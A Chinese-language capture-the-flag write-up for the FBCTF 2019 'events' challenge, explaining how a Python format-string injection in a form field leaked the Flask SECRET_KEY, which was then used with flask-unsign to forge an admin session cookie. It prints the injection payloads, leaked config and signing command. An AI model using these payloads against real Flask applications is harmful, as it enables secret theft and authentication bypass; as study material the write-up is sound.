 # events

這題其實一開始我們方向全錯

一直往cookie去踹

但後來我從`asd:asd`這個帳號發現有人成功利用 python format string 漏洞撈到東西

一開始還以為是有人故意放假的 Response 混淆大家

結果發現重新整理，address 也會跟著變，才知道是真的，差點笑死

![](https://github.com/w181496/CTF/blob/master/fbctf2019/events/asd.png)

所以後來我才開始踹 format string

然後發現漏洞在: `event_name=a&event_address=a&event_important=__dict__`

=> `{'_sa_instance_state': <sqlalchemy.orm.state.InstanceState object at 0x7fb2c5ba2588>, 'fmt': '{0.__dict__}', 'show': '__dict__', 'name': 'a', 'owner_id': 67, 'address': 'a', 'id': 5335}`

`event_important` 參數可以 injection

而 config 在: `event_name=a&event_address=a&event_important=__class__.__init__.__globals__[app].config`

=>

```
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'events_sesh_cookie', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'SQLALCHEMY_DATABASE_URI': 'sqlite:///my.db', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}}>
```

其中 `SECRET_KEY`: `fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y`

用這把 key 去簽 cookie 就行了

簽 key 可以用 flask-unsign 這個 package 去簽 (thanks my teammate @bookgin)

但有點難裝，我是直接用 google colab 去跑XD

![](https://github.com/w181496/CTF/blob/master/fbctf2019/events/colab.png)

`!flask-unsign --secret 'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y' --sign --cookie "admin"`

=> `ImFkbWluIg.XPSrLA.NdkV5Vsk-a5gDFlll1JcU2SumDI`

把這個塞進 `user` cookie 裡就能拿到 flag


![](https://github.com/w181496/CTF/blob/master/fbctf2019/events/admin.png)


`fb{e@t_aLL_th0s3_c0oKie5}`
